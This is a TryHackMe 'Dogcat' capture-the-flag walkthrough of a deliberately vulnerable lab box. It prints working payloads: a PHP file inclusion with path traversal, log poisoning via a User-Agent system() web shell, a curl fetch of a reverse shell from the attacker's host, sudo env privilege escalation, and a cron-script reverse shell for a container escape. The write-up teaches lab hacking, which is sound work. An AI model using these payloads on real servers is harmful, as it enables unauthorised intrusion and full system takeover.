 ```yaml
---
title: THM Dogcat writeup
description: Tryhackme Dogcat room writeup
authors: ["shivam"]
slug: dogcat
image: https://tryhackme-images.s3.amazonaws.com/room-icons/ce2fe16cfcdac475834f262306243b0a.png
tags: ["php wrappers", "log poisoning", "env", "docker", "crontab"]
---
```


Hello everyone,

Today we are going to solve Dogcat room from tryhackme. we will learn about php wrappers,log poisoning,docker and privesc with `env` SUID binary.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/ce2fe16cfcdac475834f262306243b0a.png)

<!--truncate-->

## Nmap results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster results

```bash
┌──(kali㉿kali)-[~/Documents/THM/Dogcat]
└─$ gobuster dir -u http://10.10.238.89/ -w /usr/share/wordlists/dirb/common.txt -t 30 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.89/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/17 12:34:31 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/cats                 (Status: 301) [Size: 311] [--> http://10.10.238.89/cats/]
/index.php            (Status: 200) [Size: 418]
/server-status        (Status: 403) [Size: 277]
===============================================================
2021/10/17 12:35:03 Finished
===============================================================
```

---

--> I tried many payloads but didn't succeed. i also tried with null character but still getting error

Then i tried this payload : `php://filter/convert.base64-encode/resource=dog/../index`

--> And i got the base64 encoded output!

![](Attachments/Pastedimage20211017133712.png)

--> After decoding it i got the source code of `index.php`

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

--> here we can see that there is a another parameter which is `ext` and i also got this parameter from arjun. So we can see this parameter is appending after the value of `view` so we have to make the `ext` null and then we can bypass this i guess.

--> and i used this payload : `php://filter/convert.base64-encode/resource=dog/../../../../../../../../../etc/passwd&ext=`

And got the `/etc/passwd` file

![](Attachments/Pastedimage20211017134853.png)

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

--> Then i have read `/var/log/apache2/access.log` file and i got the apache2 logs and there i found that the user-agent was reflecting so There is a chance to do `log poisoning`

I used this payload to read the access log : `dog/../../../../../../../../../var/log/apache2/access.log&ext=`

![](Attachments/Pastedimage20211018101340.png)

--> After that i changed the User-agent with `<?php system($_GET['c']); ?>` and added one more parameter with the value : `&c=ls`

So final payload will be :

```bash
dog/../../../../../../../../../var/log/apache2/access.log&ext=&c=ls
```

And boom we got the result !

![](Attachments/Pastedimage20211018102449.png)

Got the first flag in `flag.php`

![](Attachments/Pastedimage20211018102631.png)

After that i uploaded my php reverse shell using curl

```bash
curl http://<ip>:<port>/shell.php
```

After that execute the file

```bash
php shell.php
```

--> And i got the reverse shell !

![](Attachments/Pastedimage20211018103258.png)

--> Got the second flag in `/var/www`

![](Attachments/Pastedimage20211018103551.png)

--> i found the `/env` as runnable by root without password and it was SUID also

i run this command from gtfobins : `sudo /usr/bin/env /bin/bash`

--> And got the root shell !

![](Attachments/Pastedimage20211018105059.png)

--> Found flag3 in `/root` directory

![](Attachments/Pastedimage20211018105139.png)

--> i tried to search for a flag4 in every directory but i didn't found anything then i found one file called `backup.sh` in `/opt` directory. It was extracting the backup.tar file and then placing it to `/root/container` but there is a no folder named `container` in root directory so i made one reverse shell payload and uploaded it into `backup.sh` file and it is a maybe a crontab so it will execute automatically

--> And after some time i got the reverse shell as root but this time the root directory was changed and i got the flag4 there also

![](Attachments/Pastedimage20211018111337.png)

--> That means this was the another docker environment and we were in another environment before!
